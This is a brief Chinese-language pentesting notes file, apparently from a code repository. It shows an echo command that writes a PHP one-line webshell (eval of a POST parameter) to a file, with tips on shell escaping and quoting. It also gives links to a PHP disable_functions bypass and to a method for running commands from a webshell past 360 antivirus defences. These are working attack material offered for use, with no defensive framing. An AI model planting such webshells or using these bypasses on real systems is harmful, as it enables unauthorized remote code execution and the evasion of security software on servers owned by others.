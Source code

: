 # 01、echo写入php一句话木马
```
echo "<?php eval(\$_POST['cmd']);?>">1.php
```
1.php内容如下
```
<?php eval($_POST['cmd']);?>
```
注意1：经过在burp下测试及bash下测试发现
```
echo "<?php eval($_POST['cmd']);?>">1.php  
```
1.php的内容如下
```
<?php eval(['cmd']);?>
```
注意2：Windows下echo "bbb">3.txt时，会将双引号带入文件内容，Linux下echo "bbb">3.txt时，不会将双引号带入文件内容。  

# 02、php绕过disable_functions
```
https://github.com/mm0r1/exploits/tree/master/php-filter-bypass
```

# 03、webshell下绕过360执行命令
```
Webshell绕过360主动防御执行命令
https://mp.weixin.qq.com/s/OGwo1zoN1LS3aYalZ_PePw
```